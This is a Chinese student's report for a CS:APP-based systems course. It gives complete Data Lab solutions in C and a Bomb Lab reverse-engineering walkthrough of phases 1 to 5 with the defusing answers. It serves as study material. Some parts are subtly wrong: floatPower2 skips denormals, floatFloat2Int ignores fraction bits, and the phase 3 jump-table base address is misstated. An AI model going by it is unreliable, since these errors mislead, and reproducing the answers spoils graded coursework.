

# 计算机系统概论 实验报告

姓名：蓝俊玮 	学号：PB20111689

[TOC]

## 实验摘要

在本课程中，我一共完成了下列 5 个实验：

- Data Lab：实现简单的逻辑、二进制补码和浮点函数
- Bomb Lab：通过逆向工程来拆除炸弹
- Attack Lab：完成代码注入和面向返回编程的攻击
- Architecture Lab：通过修改功能和处理器设计来最小化指令运行数
- Shell Lab：使用 job control 实现一个简单 Unix shell 程序

## 实验环境

我使用的是 Windows 下的 WSL2


## 实验介绍

### Data Lab

首先获取实验框架，然后解压：

```bash
wget http://csapp.cs.cmu.edu/3e/datalab-handout.tar
tar -xvf datalab-handout.tar
rm datalab-handout.tar
```

同时配置环境：

```bash
sudo apt-get install gcc-multilib
```

#### 1. `bitXor` 函数

**目标：只使用符号按位非 `~` 和符号按位与 `&` 来实现按位异或 `^`**

学过 “模拟与数字电路 / 011151” 这门课程后，我们知道：

$$
A \oplus B = A\overline{B}+\overline{A}B = \overline{\overline{A\overline{B}} \ \overline{\overline{A}B}}
$$

其中最后一步利用到了**德摩根定律**：

$$
\overline{A\overline{B}+\overline{A}B}=\overline{A\overline{B}}\ \overline{\overline{A}B}
$$

所以可以得到函数为：

```c
int bitXor(int x, int y) {
  // x ^ y = x & ~y + ~x & y = ~(~(x & ~y) & ~(~x & y))
  return ~(~(x & (~y)) & ~((~x) & y));
}
```

#### 2. `tmin` 函数

**目标：返回最小二进制补码整数**

我们知道，`int` 的字长为 32 位，而最高位表示的符号位。当最高位为 1 时，则表示为负数。而最小二进制补码整数就是 **`0x80000000`**。

所以可以得到函数为：

```c
int tmin(void) {
  // minimum two's complement integer is 0x80000000
  return 0x1 << 31;
}
```

#### 3. `isTmax` 函数

**目标：判断是否为最大二进制补码整数**

同上述，我们知道最大二进制补码整数就是 `0x7fffffff`。因此，我们的目标就是判断输入的数 `x` 是否为该数。为了对其进行判断，**我们可以使用 `~(x + 1) ^ x` 对其进行判断。**因为 `(x + 1) = 0x80000000, ~(x + 1) = 0x7fffffff, ~(x + 1) ^ x = 0x0`，所以可以通过这个特征鲜明的判断出 `0x7fffffff`。但是注意到 `x = 0xffffffff` 也满足 `~(x + 1) ^ x = 0`，因此还需要对 `0xffffffff` 进行判断。

所以可以得到函数为：

```c
int isTmax(int x) {
  // maximum two's complement number is 0x7fffffff
  // x will overflow when it plus 1, so we use `~(x + 1) ^ x` to judge
  // and to make `~(x + 1) ^ x` work we need to judge 0xffffffff
  // because 0xffffffff also satisfy `~(x + 1) ^ x`
  return !((~(x + 1) ^ x) | !(~x));
}
```

#### 4. `allOddBits` 函数

**目标：判断所有奇数位置是否都为 1**

对于 32 位的 int 数据来说，奇数位置全为 1 的数字为 `0xAAAAAAAA`，因此我们可以让输入的数 `x` 和 `0xAAAAAAAA` 进行**按位与**操作，并对操作后的结果进行判断。

所以可以得到函数为：

```c
int allOddBits(int x) {
  // we need to judge if x's every odd-numbered bit is 1
  // so we compare with 0xAAAAAAAA
  int target_number = 0xAA + (0xAA << 0x8) + (0xAA << 0x10) + (0xAA << 0x18);
  return !((x & target_number) ^ target_number);
}
```

#### 5. `negate` 函数

**目标：返回一个输入数字的相反数**

学过 “模拟与数字电路 / 011151” 这门课程后，我们知道一个数字的相反数就是其**补码的取反＋1**。

所以可以得到函数为：

```c
int negate(int x) {
  // easy:) just invert and add 1
  return ~(x) + 1;
}
```

#### 6. `isAsciiDigit` 函数

**目标：判断一个数字大小是否位于区间 `0x30 <= x <= 0x39`**

我们可以将这个目标条件**转化为两个等价的条件：`x - 0x30 >= 0` 和 `0x39 - x >= 0`**，然后对这两个条件进行判断真假，只有当这两个条件都成立时，原条件才成立。而为了判断一个数字是否大于等于 0，我们可以使用符号位来进行快速判断。当符号位为 0 的时候，说明该数字是大于等于 0 的。

所以可以得到函数为：

```c
int isAsciiDigit(int x) {
  // judge x - 0x30 >= 0 and 0x39 - x >= 0
  // use most significant bit to judge sign
  int most_significant_bit = 0x1 << 31;
  int x_substract_0x30 = x + ~(0x30) + 1;
  int x39_substract_x = 0x39 + ~(x) + 1;
  return !((most_significant_bit & x_substract_0x30) | (most_significant_bit & x39_substract_x));
}
```

#### 7. `conditional` 函数

**目标：实现与 `x ? y : z` 一样的功能**

可以看出，`x` 作为选择条件，根据其正负来选择另一个值，那么就要**设置掩码 `mask` 为 `0x0` 或者 `0xffffffff`**。首先还是根据 `x` 的符号来进行判断，然后对其进行左移和右移。注意：负数在右移的时候，会在高位补 1，而不是补 0。

所以可以得到函数为：

```c
int conditional(int x, int y, int z) {
  // use most significant bit to judge x >= 0 and switch one result
  // use left shift and right shift to change
  int result_mask = (!x << 31) >> 31;
  return (y & ~(result_mask)) + (z & result_mask);
}
```

#### 8. `isLessOrEqual` 函数

**目标：判断两个数的大小关系 `x <= y` 是否成立**

我们可以将这个**目标条件转换为 `y - x > = 0`**。在这里，因为 `x` 和 `y` 的取值范围较大，所以对两数进行计算时容易发生溢出现象。我们知道，只有当两个数的符号为异号相减的时候才会发生溢出。所以可到下述三个条件：

- 若 `x` 为非负数而 `y` 为负数，则 `x <= y` 不成立
- 若 `x` 为负数而 `y` 为非负数，则 `x <= y` 成立
- 若 `x` 和 `y` 正负关系相同，则判断 `y - x >= 0`

所以可以得到函数为：

```c
int isLessOrEqual(int x, int y) {
  // when x and y aren't the same sign, they may overflow when substracting
  // then use most significant bit to judge y - x >= 0
  int most_significant_bit = 0x1 << 31;
  int positive_x_negative_y = (!(x & most_significant_bit)) & (!!(y & most_significant_bit));
  int negative_x_positive_y = (!!(x & most_significant_bit)) & (!(y & most_significant_bit));
  int y_substract_x = !((y + ~(x) + 1) & most_significant_bit);
  return negative_x_positive_y | ((!positive_x_negative_y) & y_substract_x);
}
```

#### 9. `logicalNeg` 函数

**目标：判断一个数是否为 0**

0 这个数字具有一个特征就是， 0 的相反数就是它本身。则可以根据这一特征进一步得知：0 和 -0 的最高位（符号位）都是 0。那么对**自身符号位和相反数符号位**进行判断即可。

所以可以得到函数为：

```c
int logicalNeg(int x) {
  // judge 0, 0 and -0 have the same most significant bit 0
  return (((~(x) + 1) | x) >> 31) + 1;
}
```

#### 10. `howManyBits` 函数

**目标：判断一个函数最少需要多少位来表示**

因为正数和负数的表示逻辑是不一样的。对于正数来说，前面的 0 是可以忽略省去的；而对于负数来说，前面的 1 是可以忽略省去的。因此首先需要对其进行统一的表示。接着**依此构造 16, 8, 4, 2, 1 位的掩码用来指示需要多少位**进行表示。因为是从 0 开始计算的，因此最后还需要加上 1。

所以可以得到函数为：

```c
int howManyBits(int x) {
  // make 16, 8, 4, 2, 1 bits mask to represent
  int temp = x ^ (x << 1);
  int bit_16, bit_8, bit_4, bit_2, bit_1;
  bit_16 = !!(temp >> 16) << 4;
  temp = temp >> bit_16;
  bit_8 = !!(temp >> 8) << 3;
  temp = temp >> bit_8;
  bit_4 = !!(temp >> 4) << 2;
  temp = temp >> bit_4;
  bit_2 = !!(temp >> 2) << 1;
  temp = temp >> bit_2;
  bit_1 = !!(temp >> 1);
  return bit_16 + bit_8 + bit_4 + bit_2 + bit_1 + 1;
}
```

#### 11. `floatScale2` 函数

**目标：给出输入浮点数 `f`，返回 `2 * f` 的值**

根据 IEEE 754 浮点数标准详解，我们知道浮点数是由 32 位来进行表示的：其中最高位 31 位是符号位，23 - 30 位是指数位，0 - 22 位是有效数字位。首先我们需要获取 `f` 的指数位和有效数字位，**根据指数位的值来确定 `f` 是什么数值范围的**。指数位的值可以分为如下情况：

- 格式化值：指数位的值不全为 0 也不全为 1
- 特殊数值：指数位的值全为 1。当有效数字位非零时，则表示为 Not a Number；当有效数字为零时，则表示为无穷大 $\infty$
- 非格式化值：指数位的值全为 0。用来表示那些非常接近于 0.0 的数

所以可以得到函数为：

```c
unsigned floatScale2(unsigned uf) {
  // first judge exponent, then refer to IEEE
  unsigned exponent = (uf & 0x7f800000) >> 23;
  unsigned fraction = uf & 0x007fffff;
  if (exponent == 0xff) // Not a Number or Infinity
    return uf;
  if (exponent == 0x0)
    return (uf & 0x80000000) + (exponent << 23) + (fraction << 1);
  return (uf & 0x80000000) + ((exponent + 1) << 23) + fraction;
}
```

#### 12. `floatFloat2Int` 函数

**目标：将输入浮点数 `f` 类型转换为整型**

同样，根据 IEEE 754 浮点数标准详解，根据指数位的值来确定 `f` 是什么数值范围的。

1. 如果 `f` 的指数位是小于 bias 127 的话，说明 `f` 是个小数，那么类型转换后就是 0
2. 如果 `f` 的指数位是大于 bias 127 + 31 的话，说明其指数范围过大，在类型转换之后，会超出 int 类型的表示范围，所以在类型转换之后会发生溢出，那么类型转换后就是 `0x80000000u`
3. 在正常情况下，根据 `f` 指数位减去 bias 127 后剩余的位数来确定转换后的值，同时要需要判断 `f` 的符号位。

所以可以得到函数为：

```c
int floatFloat2Int(unsigned uf) {
  // first judge exponent, then refer to IEEE
  unsigned exponent = (uf & 0x7f800000) >> 23;
  int value = 1 << (exponent - 0x7f); // get int exponent bits;
  if (exponent < 0x7f)  // fraction
    return 0;
  if (exponent >= (0x7f + 0x1f))  // int value overflow 
    return 0x80000000u;
  return ((0x1 << 31) & uf) ? (-value) : value; // check sign bit
}
```

#### 13. `floatPower2` 函数

**目标：给出整数 `x`，返回浮点数 `2.0 ^ x ` 的浮点表示结果**

同样，根据 IEEE 754 浮点数标准详解，需要判断计算表达式 `2.0 ^ x` 的指数位范围：**因为是需要用浮点表示结果，所以指数位需要加上 bias 127。**在加上 bias 127 之后，若指数位范围还是小于等于 0 的话，说明计算结果太小，则返回 0；若指数位范围是大于等于 255 的话，说明这个计算结果太大，则返回正无穷 `0x7f800000`；其它情况则正常返回其浮点表示结果。

所以可以得到函数为：

```c
unsigned floatPower2(int x) {
  // first judge exponent, then refer to IEEE
  int exponent = x + 127;
  if (exponent <= 0)  // underflow
    return 0;
  if (exponent >= 255)  // Not a Number or Infinity
    return 0xff << 23;
  return exponent << 23;
}
```

#### Data Lab 结果展示


### Bomb Lab

首先获取实验框架，然后解压：

```bash
wget http://csapp.cs.cmu.edu/3e/bomb.tar
tar -xvf bomb.tar
rm bomb.tar
```

然后阅读 `bomb.c` 源文件，可以看到本次实验一共有 6 个 phase，每个 phase 都会接受一个字符串输入，只有当输入的字符串符合预期时，炸弹才会成功被拆除。所以我们需要找到这些字符串来求解。

接下来先对可执行文件 `bomb` 进行反汇编，得到汇编文件 `bomb.asm`

```bash
objdump -d bomb > bomb.asm
```

#### 1. phase 1

首先观察 phase 1 的汇编代码：

```assembly
0000000000400ee0 <phase_1>:
  400ee0:	48 83 ec 08          	sub    $0x8,%rsp
  400ee4:	be 00 24 40 00       	mov    $0x402400,%esi
  400ee9:	e8 4a 04 00 00       	callq            <strings_not_equal>
  400eee:	85 c0                	test   %eax,%eax
  400ef0:	74 05                	je     400ef7 <phase_1+0x17>
  400ef2:	e8 43 05 00 00       	callq  40143a <explode_bomb>
  400ef7:	48 83 c4 08          	add    $0x8,%rsp
  400efb:	c3                   	retq   
```

首先由于我们知道 `phase_1` 函数是接受了一个字符串为参数，因此 `%rdi` 寄存器中应该存储的是输入字符串的信息，而在 `phase_1` 函数中，发现在调用 `strings_not_equal` 之前有 `mov $0x402400,%esi`。而我们知道，`%esi` 是代表第二个参数的寄存器。**因此比较的正是在内存位置为 `0x402400` 的字符串**。因此只需要用 `x/s 0x402400` 得到该字符串即可解除炸弹。


#### 2. phase 2

首先观察 phase 2 的汇编代码：

```assembly
0000000000400efc <phase_2>:
  400efc:	55                   	push   %rbp
  400efd:	53                   	push   %rbx
  400efe:	48 83 ec 28          	sub    $0x28,%rsp
  400f02:	48 89 e6             	mov    %rsp,%rsi
  400f05:	e8 52 05 00 00       	callq  40145c <read_six_numbers>
  400f0a:	83 3c 24 01          	cmpl   $0x1,(%rsp)
  400f0e:	74 20                	je     400f30 <phase_2+0x34>
  400f10:	e8 25 05 00 00       	callq  40143a <explode_bomb>
  400f15:	eb 19                	jmp    400f30 <phase_2+0x34>
  400f17:	8b 43 fc             	mov    -0x4(%rbx),%eax
  400f1a:	01 c0                	add    %eax,%eax
  400f1c:	39 03                	cmp    %eax,(%rbx)
  400f1e:	74 05                	je     400f25 <phase_2+0x29>
  400f20:	e8 15 05 00 00       	callq  40143a <explode_bomb>
  400f25:	48 83 c3 04          	add    $0x4,%rbx
  400f29:	48 39 eb             	cmp    %rbp,%rbx
  400f2c:	75 e9                	jne    400f17 <phase_2+0x1b>
  400f2e:	eb 0c                	jmp    400f3c <phase_2+0x40>
  400f30:	48 8d 5c 24 04       	lea    0x4(%rsp),%rbx
  400f35:	48 8d 6c 24 18       	lea    0x18(%rsp),%rbp
  400f3a:	eb db                	jmp    400f17 <phase_2+0x1b>
  400f3c:	48 83 c4 28          	add    $0x28,%rsp
  400f40:	5b                   	pop    %rbx
  400f41:	5d                   	pop    %rbp
  400f42:	c3                   	retq   
```

首先可以看到，在 `phase_2` 函数中分配了 `0x28` 的栈空间，紧接着将 `%rsp` 作为参数传给了 `read_six_numbers`，明显可以知道这是为了读取 6 个数字并且将其存储到栈空间上。在读取完 6 个数字后，首先将第一个数字 `(%rsp)` 与 `0x1` 进行比较，以此确定了第一个数字是 `0x1`。然后会跳转到 `0x400f30`， `0x400f30` 这条指令将第二个数的地址存放在了寄存器 `%rbx` 中，下一条指令则将最后一个数的地址存放在了寄存器 `%rbp` 中（`0x18 = 24`，因为有 6 个数，所以 24 表示最后一个数）。

接着程序进入到一个循环当中

```assembly
  400f17:	8b 43 fc             	mov    -0x4(%rbx),%eax
  400f1a:	01 c0                	add    %eax,%eax
  400f1c:	39 03                	cmp    %eax,(%rbx)
  400f1e:	74 05                	je     400f25 <phase_2+0x29>
  400f20:	e8 15 05 00 00       	callq  40143a <explode_bomb>
  400f25:	48 83 c3 04          	add    $0x4,%rbx
  400f29:	48 39 eb             	cmp    %rbp,%rbx
  400f2c:	75 e9                	jne    400f17 <phase_2+0x1b>
```

首先将第一个数的值存在寄存器 `%eax` 中，然后将 `%eax` 乘 2，并且将结果与第二个数的值进行比较。若比较成功的话，则会有 `add $0x4,%rbx` 直到比较到最后一个数 `cmp %rbp,%rbx`。所以可以知道，每次循环时，**后一个数字都是前一个数字的 2 倍，因此这是个首项为 1，公比为 2 的等比数列**。因此 `phase_2` 的解为 `1 2 4 8 16 32`。


#### 3. phase 3

首先观察 phase 3 的汇编代码：

```assembly
0000000000400f43 <phase_3>:
  400f43:	48 83 ec 18          	sub    $0x18,%rsp
  400f47:	48 8d 4c 24 0c       	lea    0xc(%rsp),%rcx
  400f4c:	48 8d 54 24 08       	lea    0x8(%rsp),%rdx
  400f51:	be cf 25 40 00       	mov    $0x4025cf,%esi
  400f56:	b8 00 00 00 00       	mov    $0x0,%eax
  400f5b:	e8 90 fc ff ff       	callq  400bf0 <__isoc99_sscanf@plt>
  400f60:	83 f8 01             	cmp    $0x1,%eax
  400f63:	7f 05                	jg     400f6a <phase_3+0x27>
  400f65:	e8 d0 04 00 00       	callq  40143a <explode_bomb>
  400f6a:	83 7c 24 08 07       	cmpl   $0x7,0x8(%rsp)
  400f6f:	77 3c                	ja     400fad <phase_3+0x6a>
  400f71:	8b 44 24 08          	mov    0x8(%rsp),%eax
  400f75:	ff 24 c5 70 24 40 00 	jmpq   *0x402470(,%rax,8)
  400f7c:	b8 cf 00 00 00       	mov    $0xcf,%eax
  400f81:	eb 3b                	jmp    400fbe <phase_3+0x7b>
  400f83:	b8 c3 02 00 00       	mov    $0x2c3,%eax
  400f88:	eb 34                	jmp    400fbe <phase_3+0x7b>
  400f8a:	b8 00 01 00 00       	mov    $0x100,%eax
  400f8f:	eb 2d                	jmp    400fbe <phase_3+0x7b>
  400f91:	b8 85 01 00 00       	mov    $0x185,%eax
  400f96:	eb 26                	jmp    400fbe <phase_3+0x7b>
  400f98:	b8 ce 00 00 00       	mov    $0xce,%eax
  400f9d:	eb 1f                	jmp    400fbe <phase_3+0x7b>
  400f9f:	b8 aa 02 00 00       	mov    $0x2aa,%eax
  400fa4:	eb 18                	jmp    400fbe <phase_3+0x7b>
  400fa6:	b8 47 01 00 00       	mov    $0x147,%eax
  400fab:	eb 11                	jmp    400fbe <phase_3+0x7b>
  400fad:	e8 88 04 00 00       	callq  40143a <explode_bomb>
  400fb2:	b8 00 00 00 00       	mov    $0x0,%eax
  400fb7:	eb 05                	jmp    400fbe <phase_3+0x7b>
  400fb9:	b8 37 01 00 00       	mov    $0x137,%eax
  400fbe:	3b 44 24 0c          	cmp    0xc(%rsp),%eax
  400fc2:	74 05                	je     400fc9 <phase_3+0x86>
  400fc4:	e8 71 04 00 00       	callq  40143a <explode_bomb>
  400fc9:	48 83 c4 18          	add    $0x18,%rsp
  400fcd:	c3                   	retq   
```

首先我们可以看到，程序在一开始调用了 `sscanf` 函数，且其第二个参数的地址为 `0x4025cf`，通过 gdb 我们可以知道：

```
(gdb) x/s 0x4025cf
0x4025cf:       "%d %d"
```

很明显，这是符合 `sscanf` 函数的参数，同时也表明接受的后两个参数是整数。而从汇编代码中也可以知道，第三个参数位于 `0x8(%rsp)` 而第四个参数位于 `0xc(%rsp)`。

当输入符合要求的时候，则会用 `cmpl $0x7,0x8(%rsp)` 判断第一个数字的大小是否不大于 7。当符合要求的时候，接着执行 `mov 0x8(%rsp),%eax` 和 `jmpq *0x402470(,%rax,8)`。这里先通过 gdb 查询 `0x402470` 的含义：

```
(gdb) x 0x402470
0x402470:       0x00400f7c
```

可以发现，这个内存位置存储的正好是 `jmpq *0x402470(,%rax,8)` 下一条指令的地址。

而查询 `0x402478` 的含义：

```
(gdb) x 0x402478
0x402478:       0x00400fb9
```

可以发现，这个内存并不是连续的。

所以不难猜测，这是个**跳转表的方式**，其中 `0x400f7c` 是基地址，而 `%rax` 中存储的值就是索引（即输入的第一个数字）**真正的跳转目标就存在内存 `0x400f7c + 8 * %rax` 当中**。

发现接下来的所有跳转目标都有 `jmp 400fbe <phase_3+0x7b>` 这条指令。而 `0x400fbe` 的指令为 `cmp 0xc(%rsp),%eax`，即将通过跳转后得到的值与输入的第二个值进行比较。那么就可以得到这样的一个跳转对应表：

| 索引 |  跳转地址  | 十六进制 | 十进制 |
| :--: | :--------: | :------: | :----: |
|  0   | 0x00400f7c |   0xcf   |  207   |
|  1   | 0x00400fb9 |  0x137   |  311   |
|  2   | 0x00400f83 |  0x2c3   |  707   |
|  3   | 0x00400f8a |  0x100   |  256   |
|  4   | 0x00400f91 |  0x185   |  389   |
|  5   | 0x00400f98 |   0xce   |  206   |
|  6   | 0x00400f9f |  0x2aa   |  682   |
|  7   | 0x00400fa6 |  0x147   |  327   |

所以只需将 0 和 207 输入，1 和 311 输入等等，即从上面的组合中选取一个即可。


#### 4. phase 4

首先观察 phase 4 的汇编代码：

```assembly
000000000040100c <phase_4>:
  40100c:	48 83 ec 18          	sub    $0x18,%rsp
  401010:	48 8d 4c 24 0c       	lea    0xc(%rsp),%rcx
  401015:	48 8d 54 24 08       	lea    0x8(%rsp),%rdx
  40101a:	be cf 25 40 00       	mov    $0x4025cf,%esi
  40101f:	b8 00 00 00 00       	mov    $0x0,%eax
  401024:	e8 c7 fb ff ff       	callq  400bf0 <__isoc99_sscanf@plt>
  401029:	83 f8 02             	cmp    $0x2,%eax
  40102c:	75 07                	jne    401035 <phase_4+0x29>
  40102e:	83 7c 24 08 0e       	cmpl   $0xe,0x8(%rsp)
  401033:	76 05                	jbe    40103a <phase_4+0x2e>
  401035:	e8 00 04 00 00       	callq  40143a <explode_bomb>
  40103a:	ba 0e 00 00 00       	mov    $0xe,%edx
  40103f:	be 00 00 00 00       	mov    $0x0,%esi
  401044:	8b 7c 24 08          	mov    0x8(%rsp),%edi
  401048:	e8 81 ff ff ff       	callq  400fce <func4>
  40104d:	85 c0                	test   %eax,%eax
  40104f:	75 07                	jne    401058 <phase_4+0x4c>
  401051:	83 7c 24 0c 00       	cmpl   $0x0,0xc(%rsp)
  401056:	74 05                	je     40105d <phase_4+0x51>
  401058:	e8 dd 03 00 00       	callq  40143a <explode_bomb>
  40105d:	48 83 c4 18          	add    $0x18,%rsp
  401061:	c3                   	retq   
```

首先前面的部分与 phase 3 中的一样，`sscanf` 会接受两个整数参数，且第一个参数的值需要小于等于 `0xe`。然后可以看到，在调用 `func4` 之前，有对三个参数寄存器的赋值情况：将第一个输入整数赋值到 `%edi`，将 `0x0` 赋值到 `%esi` 和将 `0xe` 赋值到 `%edx`。**当 `func4` 结束返回后检查返回值是否为 0，最后再检查第二个输入整数是否为 0。**

接着再看 `func4` 的汇编代码：

```assembly
0000000000400fce <func4>:
  400fce:	48 83 ec 08          	sub    $0x8,%rsp
  400fd2:	89 d0                	mov    %edx,%eax
  400fd4:	29 f0                	sub    %esi,%eax
  400fd6:	89 c1                	mov    %eax,%ecx
  400fd8:	c1 e9 1f             	shr    $0x1f,%ecx
  400fdb:	01 c8                	add    %ecx,%eax
  400fdd:	d1 f8                	sar    %eax
  400fdf:	8d 0c 30             	lea    (%rax,%rsi,1),%ecx
  400fe2:	39 f9                	cmp    %edi,%ecx
  400fe4:	7e 0c                	jle    400ff2 <func4+0x24>
  400fe6:	8d 51 ff             	lea    -0x1(%rcx),%edx
  400fe9:	e8 e0 ff ff ff       	callq  400fce <func4>
  400fee:	01 c0                	add    %eax,%eax
  400ff0:	eb 15                	jmp    401007 <func4+0x39>
  400ff2:	b8 00 00 00 00       	mov    $0x0,%eax
  400ff7:	39 f9                	cmp    %edi,%ecx
  400ff9:	7d 0c                	jge    401007 <func4+0x39>
  400ffb:	8d 71 01             	lea    0x1(%rcx),%esi
  400ffe:	e8 cb ff ff ff       	callq  400fce <func4>
  401003:	8d 44 00 01          	lea    0x1(%rax,%rax,1),%eax
  401007:	48 83 c4 08          	add    $0x8,%rsp
  40100b:	c3                   	retq   
```

首先从 `phase_4` 的分析中，我们得知 `func4` 的参数为：`func4(input_1, 0x0, 0xe)`。一句句分析，可以对前面的几句得到：

```assembly
%ecx = %eax = %edx - %esi
%ecx = (%edx - %esi) >> 31
%eax = ((%edx - %esi) + (%edx - %esi) >> 31) >> 1
%ecx = %rax + %rsi
```

然后比较第一个输入的数 `%edi` 和 `%ecx`。接着发现，会根据不同的比较结果，调用不同的参数进行 `func4` 函数的递归调用。由于递归调用比较难以理解其实际含义，因此尝试将上述汇编代码转变为 C 语言代码（保存为 `func4.c`）：

```c
unsigned int func4(unsigned int a, unsigned int b, unsigned int c) {
    unsigned int temp = c - b;
	temp += temp >> 31;
	temp >>= 1;
	temp += b;
    if (temp > a) {
        return 2 * func4(a, b, temp - 1);
    }
    else if (temp < a) {
        return 2 * func4(a, temp + 1, c) + 1;
    }
    else return 0;
}
```

通过循环调用发现：

```c
for (unsigned int i = 0; i <= 0xe; i++) {
    printf("func4(%u) reuslt is: %u\n", i, func4(i, 0x0, 0xe));
}
```

得到结果为：

```
func4(0) reuslt is: 0
func4(1) reuslt is: 0
func4(2) reuslt is: 4
func4(3) reuslt is: 0
func4(4) reuslt is: 2
func4(5) reuslt is: 2
func4(6) reuslt is: 6
func4(7) reuslt is: 0
func4(8) reuslt is: 1
func4(9) reuslt is: 1
func4(10) reuslt is: 5
func4(11) reuslt is: 1
func4(12) reuslt is: 3
func4(13) reuslt is: 3
func4(14) reuslt is: 7
```

**所以只有 0，1，3，7 符合要求。**所以最后符合要求的为 **`(0, 0), (1, 0), (3, 0), (7, 0)`**。


#### 5. phase 5

首先观察 phase 5 的汇编代码：

```assembly
0000000000401062 <phase_5>:
  401062:	53                   	push   %rbx
  401063:	48 83 ec 20          	sub    $0x20,%rsp
  401067:	48 89 fb             	mov    %rdi,%rbx
  40106a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401071:	00 00 
  401073:	48 89 44 24 18       	mov    %rax,0x18(%rsp)
  401078:	31 c0                	xor    %eax,%eax
  40107a:	e8 9c 02 00 00       	callq  40131b <string_length>
  40107f:	83 f8 06             	cmp    $0x6,%eax
  401082:	74 4e                	je     4010d2 <phase_5+0x70>
  401084:	e8 b1 03 00 00       	callq  40143a <explode_bomb>
  401089:	eb 47                	jmp    4010d2 <phase_5+0x70>
  40108b:	0f b6 0c 03          	movzbl (%rbx,%rax,1),%ecx
  40108f:	88 0c 24             	mov    %cl,(%rsp)
  401092:	48 8b 14 24          	mov    (%rsp),%rdx
  401096:	83 e2 0f             	and    $0xf,%edx
  401099:	0f b6 92 b0 24 40 00 	movzbl 0x4024b0(%rdx),%edx
  4010a0:	88 54 04 10          	mov    %dl,0x10(%rsp,%rax,1)
  4010a4:	48 83 c0 01          	add    $0x1,%rax
  4010a8:	48 83 f8 06          	cmp    $0x6,%rax
  4010ac:	75 dd                	jne    40108b <phase_5+0x29>
  4010ae:	c6 44 24 16 00       	movb   $0x0,0x16(%rsp)
  4010b3:	be 5e 24 40 00       	mov    $0x40245e,%esi
  4010b8:	48 8d 7c 24 10       	lea    0x10(%rsp),%rdi
  4010bd:	e8 76 02 00 00       	callq  401338 <strings_not_equal>
  4010c2:	85 c0                	test   %eax,%eax
  4010c4:	74 13                	je     4010d9 <phase_5+0x77>
  4010c6:	e8 6f 03 00 00       	callq  40143a <explode_bomb>
  4010cb:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
  4010d0:	eb 07                	jmp    4010d9 <phase_5+0x77>
  4010d2:	b8 00 00 00 00       	mov    $0x0,%eax
  4010d7:	eb b2                	jmp    40108b <phase_5+0x29>
  4010d9:	48 8b 44 24 18       	mov    0x18(%rsp),%rax
  4010de:	64 48 33 04 25 28 00 	xor    %fs:0x28,%rax
  4010e5:	00 00 
  4010e7:	74 05                	je     4010ee <phase_5+0x8c>
  4010e9:	e8 42 fa ff ff       	callq  400b30 <__stack_chk_fail@plt>
  4010ee:	48 83 c4 20          	add    $0x20,%rsp
  4010f2:	5b                   	pop    %rbx
  4010f3:	c3                   	retq   
```

大概阅读了一遍之后，并不能直接理解程序的意图是什么。首先还是分析上面出现的内存值：

```gdb
(gdb) x/s 0x4024b0
0x4024b0 <array.3449>:  "maduiersnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"
(gdb) x/s 0x40245e
0x40245e:       "flyers"
```

从开头的 `callq 40131b <string_length>` 和 `cmp $0x6,%eax` 可知，大概率输入串的长度是 6。然后分析到下面，发现有一个循环，根据 `add $0x1,%rax` 和 `cmp $0x6,%rax` 大概率得知是对字符一个个处理。而接下来会有一个 `callq 401338 <strings_not_equal>` 字符串的比较。比较的双方是 `0x10(%rsp)` 和 `flyers`。

所以可以猜测出，上面这个循环会将输入的字符串一个个进行转化。我们的目标是需要让其转换成为 `flyers`。所以需要重点分析该循环：

```assembly
  40108b:	0f b6 0c 03          	movzbl (%rbx,%rax,1),%ecx
  40108f:	88 0c 24             	mov    %cl,(%rsp)
  401092:	48 8b 14 24          	mov    (%rsp),%rdx
  401096:	83 e2 0f             	and    $0xf,%edx
  401099:	0f b6 92 b0 24 40 00 	movzbl 0x4024b0(%rdx),%edx
  4010a0:	88 54 04 10          	mov    %dl,0x10(%rsp,%rax,1)
  4010a4:	48 83 c0 01          	add    $0x1,%rax
  4010a8:	48 83 f8 06          	cmp    $0x6,%rax
  4010ac:	75 dd                	jne    40108b <phase_5+0x29>
```

首先在程序开始处有 `mov %rdi,%rbx`，接着 `movzbl (%rbx,%rax,1),%ecx` 和 `mov %cl,(%rsp)` 等一系列操作（循环中的操作）将其低 8 位与 `0xf` 进行按位与操作，接着用 `movzbl 0x4024b0(%rdx),%edx` 取到内存中字符串数组相应的值，接着再取低 8 位存到 `0x10(%rsp, %rax, 1)` 中，这里正好与上述中提到的所符合。即该循环经过这些处理变换后，将结果存在起始地址为 `0x10(%rsp)` 的内存当中，再与 `flyers` 进行比较。

`flyers` 在 `maduiersnfotvbyl` 中的索引位置分别为 `9, 15, 14, 5, 6, 7`。那么我们就需要得到这个索引序列，因为这是和 `0xf` 相按位与之后的结果，所以可以选择的结果非常多：

|  9   |  15  |  14  |  5   |  6   |  7   |
| :--: | :--: | :--: | :--: | :--: | :--: |
|  )   |  /   |  .   |  %   |  &   |  '   |
|  9   |  ?   |  >   |  5   |  6   |  7   |
|  I   |  O   |  N   |  E   |  F   |  G   |
|  Y   |  _   |  ^   |  U   |  V   |  W   |
|  i   |  o   |  n   |  e   |  f   |  g   |
|  y   |      |  ~   |  u   |  v   |  w   |

